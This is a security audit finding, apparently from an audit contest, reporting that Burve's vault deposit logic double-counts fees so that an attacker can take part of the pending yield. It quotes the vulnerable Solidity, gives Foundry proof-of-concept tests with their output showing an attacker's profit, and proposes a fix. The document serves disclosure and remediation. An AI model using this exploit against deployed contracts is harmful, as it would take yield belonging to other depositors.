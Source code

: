 Sneaky Burlap Pigeon

High

# Attacker Can Steal The Pending Yield


### Summary
In the current implementation, yields from the vault are falsely withdrawn and deposited. When deposits occur, both the deposit fee and withdrawal fee are considered again. As a result, the pending yield cannot be fully accounted for, allowing an attacker to steal the remaining yield.

### Root Cause
In the VaultProxy::deposit function, both the deposit fee and withdrawal fee are taken into account. At line 40, the fees are reconsidered. As a result, the shares of Reserve in the vault are less than they should be, leading to remaining pending yields.

https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/src/multi/vertex/Reserve.sol#L40
```solidity
    function deposit(
        VaultProxy memory vProxy,
        VertexId vid,
        uint256 amount
    ) internal returns (uint256 shares) {
        Reserve storage reserve = Store.reserve();
        uint8 idx = vid.idx();
        uint128 balance = vProxy.balance(RESERVEID, true);
40:     vProxy.deposit(RESERVEID, amount);
        // If someone tries to share inflate attack this, they'd have to donate to the underlying vault,
        // which then splits the donation across existing deposits from other people using the vault,
        // including the other closures. So there's no way to inflate shares here.
        shares = (balance == 0)
            ? amount * SHARE_RESOLUTION
            : (amount * reserve.shares[idx]) / balance; // No need for mulDiv.
        reserve.shares[idx] += shares;
    }
```

### Internal pre-conditions
There is deposit or withdraw fee in the vault.

### External pre-conditions
N/A

### Attack Path
N/A

### PoC
The following code demonstrates scenarios where the vault's withdrawal fee is 0.1%. 
- In `test_collectEarnings1`, even if a user collects fees, there are still pending yields.
- In `test_collectEarnings2`, an attacker steals some of the pending yields by depositing and withdrawing values. Due to the closure's loss during deposits, the attacker's profit is reduced.
- In `test_collectEarnings3`, an unstacker steals some of the pending yields without reducing.

https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/test/mocks/MockERC4626.sol
```solidity
contract MockERC4626 is ERC4626 {
    constructor(
        ERC20 asset,
        string memory name,
        string memory symbol
    ) ERC20(name, symbol) ERC4626(asset) {}
   
    function previewWithdraw(uint256 assets) public view override returns (uint256) {
        assets = assets * 1001 / 1000;
        return _convertToShares(assets, Math.Rounding.Ceil);
    }

    function previewRedeem(uint256 shares) public view override returns (uint256) {
        return _convertToAssets(shares, Math.Rounding.Floor) * 1000 / 1001;
    }
}
```
https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/test/facets/ValueFacet.t.sol
```solidity
    function test_collectEarnings1() public {
        valueFacet.addValue(alice, 0x7, 3e23, 0);
        
        uint256[4] memory initBalances = getBalances(alice);

        MockERC20(tokens[1]).mint(address(vaults[1]), 9e22);

        vm.startPrank(alice);
        valueFacet.collectEarnings(alice, 0x7);
        
        uint256[4] memory currentBalances1 = getBalances(alice);
        int256[4] memory diffs = diffBalances(currentBalances1, initBalances);
        console.log("alice_diffs[1] : %e", diffs[1]);

        vm.startPrank(alice);
        valueFacet.collectEarnings(alice, 0x7);
        uint256[4] memory currentBalances2 = getBalances(alice);
        diffs = diffBalances(currentBalances2, currentBalances1);
        console.log("alice_diffs[1] : %e", diffs[1]);
    }
    
    function test_collectEarnings2() public {
        vm.prank(alice);
        valueFacet.addValue(alice, 0x7, 3e23, 0);

        MockERC20(tokens[1]).mint(address(vaults[1]), 9e22);

        uint256[4] memory initBalances = getBalances(bob);
        vm.prank(bob);
        valueFacet.addValue(bob, 0x7, 6e22, 0);
        vm.startPrank(bob);
        valueFacet.collectEarnings(bob, 0x7);
        vm.startPrank(bob);
        valueFacet.removeValue(bob, 0x7, 6e22, 0);
        
        uint256[4] memory currentBalances = getBalances(bob);
        int256[4] memory diffs = diffBalances(currentBalances, initBalances);
        console.log("attacker_diffs[1] : %e", diffs[1]);
    }
    function test_collectEarnings3() public {
        vm.prank(alice);
        valueFacet.addValue(alice, 0x7, 3e23, 0);
        
        vm.prank(bob);
        valueFacet.addValue(bob, 0x7, 30e23, 0);
        vm.prank(bob);
        valueTokenFacet.mint(30e23, 0, 0x7);

        MockERC20(tokens[1]).mint(address(vaults[1]), 9e22);

        vm.prank(bob);
        valueTokenFacet.burn(30e23, 0, 0x7);
        vm.prank(bob);
        valueTokenFacet.mint(30e23, 0, 0x7);
        vm.prank(bob);
        (uint256[MAX_TOKENS] memory collectedBalances, ) = valueFacet.collectEarnings(bob, 0x7);
        console.log("attacker_diffs[1] : %e", collectedBalances[1]);
        return;
    }
```
forge test --match-test "test_collectEarnings" -vv
Result:
```bash
Ran 3 tests for test/facets/ValueFacet.t.sol:ValueFacetTest
[PASS] test_collectEarnings1() (gas: 1152265)
Logs:
  alice_diffs[1] : 8.9315541827282088187155e22
  alice_diffs[1] : 1.35286827029633161208e20

[PASS] test_collectEarnings2() (gas: 1582040)
Logs:
  attacker_diffs[1] : 4.503841678705118988e18

[PASS] test_collectEarnings3() (gas: 1716915)
Logs:
  attacker_diffs[1] : 7.457786995242183564e19
```

### Impact
An attacker can steal some pending yield from `VaultE4626`. 
This amount can reach up to `pendingYield * (withdrawFeeRate + depositFeeRate)`.

### Mitigation
In the `deposit` function, add a flag to indicate whether it is a real deposit or not.

For example:
https://github.com/sherlock-audit/2025-04-burve/tree/main/Burve/src/multi/vertex/E4626.sol#L104
```solidity
105:function deposit(
        VaultE4626 storage self,
        VaultTemp memory temp,
        ClosureId cid,
        uint256 amount,
        bool realDepositFlag
    ) internal {
        uint256 newlyAdding = FullMath.mulX128(
            temp.vars[1],
            temp.vars[3],
            true // Round up to round shares down.
        );
        uint256 totalAssets = temp.vars[0] + newlyAdding - temp.vars[2];

        uint256 discountedAmount = FullMath.mulX128(
            amount,
            temp.vars[3],
            false // Round down to round shares down.
        );
+       if (!realDepositFlag) {
+           discountedAmount = amount;
+       } 
        uint256 newShares = totalAssets == 0
            ? discountedAmount
            : FullMath.mulDiv(self.totalShares, discountedAmount, totalAssets);
        self.shares[cid] += newShares;
        self.totalShares += newShares;
        temp.vars[1] += amount;
    }
```
